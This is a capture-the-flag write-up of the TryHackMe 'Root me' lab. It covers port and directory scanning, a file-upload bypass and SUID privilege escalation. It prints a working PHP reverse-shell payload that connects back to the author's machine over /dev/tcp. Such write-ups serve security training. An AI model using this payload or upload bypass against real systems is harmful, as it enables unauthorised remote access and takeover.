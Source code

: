 
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-1.png)

. After a quick directory bruteforcing i found an upload form in which i uploaded a reverse shell and become root by finding a suid binary. 

I started with a basic scan, followd by a more detailed one with the ports found open.

```
nmap -sS -T4 10.10.124.42
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 04:44 EDT
Nmap scan report for 10.10.124.42
Host is up (0.071s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
nmap -sV -sC -p22,80 10.10.124.42
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 04:50 EDT
Nmap scan report for 10.10.124.42
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


On the web port is this page
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-2.png)

Because there are only 2 open ports, i need to fully enumerate the web server to make sure i am not stuck somewhere not knowing what to do. 

```
gobuster dir -u http://10.10.124.42/ -w /usr/share/wordlists/dirb/common.txt T 250
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.42/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/10 04:48:37 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```
The only useful pages found are /panel and /uploads. The /panel page can be exploited by uploading a reverse shell payload.

![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-3.png)

The mininal reverse shell payload i used.
```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.5.181/1234 0>&1'");
```

The file name was rev.php5, as php did not work. Before ulploading it, i will prepare the netcat listener.

If the uploading process was successfull, will appear this panel alongside this link that points to the uploads page.  

![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-4.png)

The user flag is in the website directory.  
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-5.png)

Now it's time for privesc. Among these binaries is also python.
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-6.png)

The payload below was taken from gtfobins. The only thing to do is to read the root flag.
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-7.png)


